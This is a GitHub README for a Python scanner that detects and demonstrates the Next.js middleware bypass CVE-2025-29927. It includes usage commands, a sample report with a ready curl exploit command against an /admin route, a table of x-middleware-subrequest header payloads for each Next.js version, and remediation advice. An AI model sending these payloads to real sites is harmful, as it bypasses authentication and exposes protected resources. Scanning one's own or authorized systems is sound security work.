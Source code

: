 # 🔒 Next.js Middleware Bypass Scanner (CVE-2025-29927) 🛡️

![GitHub stars](https://img.shields.io/github/stars/pentestfunctions/nextjs-middleware?style=social)
![License](https://img.shields.io/badge/license-MIT-blue)
![Python Version](https://img.shields.io/badge/python-3.6%2B-blue)

## 🚨 About CVE-2025-29927

A critical vulnerability affecting Next.js applications using middleware that allows attackers to bypass middleware security controls by manipulating request headers.

This scanner efficiently detects vulnerable Next.js applications and provides exploitation guidance.

<p align="center">
  <img src="https://github.com/pentestfunctions/nextjs-middleware/blob/main/images/middleware.gif?raw=true">
</p>

## 🌟 Features

- 🔍 Automatically detects Next.js applications and version hints
- 🛡️ Identifies protected routes that might be vulnerable
- 🚀 Multi-threaded scanning for faster results
- 📊 Rich visual reports (optional)
- 🧪 Multiple payload variations for different Next.js versions
- 📝 Detailed vulnerability reporting
- 💻 Works with both modern and legacy Next.js applications (v11.x - v15.1.x)
- 🔮 Advanced Next.js version detection
- 💉 Generates ready-to-use curl commands for exploitation proof-of-concept
- 🔄 Robust redirect chain analysis to detect successful bypasses

## 📋 Requirements

- Python 3.6+
- Required packages:
  ```
  requests
  colorama (for basic output)
  rich (optional, for enhanced output)
  ```

## 🔧 Installation

```bash
# Clone the repository
git clone https://github.com/pentestfunctions/nextjs-middleware.git
cd nextjs-middleware

# Install dependencies
pip install -r requirements.txt
```

## 🚀 Usage

Basic scan:
```bash
python CVE-2025-29927.py http://example.com
```

Advanced options:
```bash
# Verbose output
python CVE-2025-29927.py example.com -v

# Save results to file
python CVE-2025-29927.py example.com -o results.json

# Adjust thread count
python CVE-2025-29927.py example.com -t 10

# Simple output (no rich formatting)
python CVE-2025-29927.py example.com --no-rich
```

## 📊 Example Output

When a vulnerability is detected, the scanner provides detailed information:

```
=====================================
CVE-2025-29927 SCAN REPORT FOR https://example.com
=====================================

SUMMARY:
  Target: https://example.com
  Next.js Detected: Yes
  Version Detected: Yes (v13.4.12)
  Routes Tested: 5
  Vulnerable: Yes

VERSION DETECTION CLUES:
  - Next.js headers found: x-nextjs-render
  - Build ID: 1a2b3c4d5e6f7g8h9i0j
  - App Router indicators detected (likely Next.js 13+)

VULNERABILITY DETAILS:

  Route: /admin
  Vulnerable to:
    - Next.js v13.x-15.1.x (standard location)
    - Next.js v13.x+ (app directory)

EXPLOIT COMMAND:
  curl -i -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware' https://example.com/admin
```

![Scanner Output Example](https://raw.githubusercontent.com/pentestfunctions/nextjs-middleware/main/screenshots/scanner_output.png)

## 🧪 How It Works

1. 🔍 Detects if the target is using Next.js through various indicators in HTTP responses
2. 🔎 Identifies protected routes based on redirect behavior or authentication patterns
3. 🧰 Tests vulnerable header payloads against protected routes
4. 🔄 Compares response behavior with and without the vulnerability payloads
5. 📝 Reports findings with exploitation guidance and proof-of-concept commands

The scanner works by exploiting how Next.js middleware handles certain headers. By sending specifically crafted values in the `x-middleware-subrequest` header, attackers can bypass security checks implemented in middleware functions.

### 🎯 Tested Headers and Payloads

The scanner tests the following payloads targeting different Next.js versions and configurations:

| Header | Value | Target |
|--------|-------|--------|
| `x-middleware-subrequest` | `middleware:middleware:middleware:middleware:middleware` | Next.js v13.x-15.1.x (standard location) |
| `x-middleware-subrequest` | `pages/_middleware` | Next.js v11.1.4-12.1.x (pages router) |
| `x-middleware-subrequest` | `middleware` | Next.js v12.2.x (standard location) |
| `x-middleware-subrequest` | `src/middleware` | Next.js v12.2.x (src directory) |
| `x-middleware-subrequest` | `src/middleware:src/middleware:src/middleware:src/middleware:src/middleware` | Next.js v13.x-15.1.x (src directory) |
| `x-middleware-subrequest` | `app/middleware:app/middleware:app/middleware:app/middleware:app/middleware` | Next.js v13.x+ (app directory) |
| `x-middleware-subrequest` | `src/app/middleware:src/app/middleware:src/app/middleware:src/app/middleware:src/app/middleware` | Next.js v13.x+ (src/app directory) |

When a vulnerable application receives these headers, the middleware may be bypassed entirely, allowing access to protected routes and resources.

## 🔬 Affected Versions

- Next.js v11.1.4 - v12.1.x (pages router middleware)
- Next.js v12.2.x (using middleware.js/ts)
- Next.js v13.x - v15.1.x (using middleware.js/ts)

Patched versions:
- Next.js v15.2.3+
- Next.js v14.2.25+

## 🛡️ Remediation

1. Update to the patched version:
   - Next.js 15.x: Update to v15.2.3 or newer
   - Next.js 14.x: Update to v14.2.25 or newer

2. If updating is not immediately possible:
   - Block the `x-middleware-subrequest` header at your web server or proxy level

#### For Cloudflare:
Create a Firewall Rule to block requests containing the `x-middleware-subrequest` header.

## ⚠️ Disclaimer

This tool is intended for security professionals to assess their own systems or systems they have permission to test. Do not use against systems without explicit permission. The author is not responsible for any misuse.

## Extras...
1. Extra folder with the code I used - can be configured with 
`npx create-next-app@15.1.7 nextjs-test` 

- Then copy those files to their appropriate locations and run `npm run dev`

---
Created with ❤️ by [pentestfunctions](https://github.com/pentestfunctions)
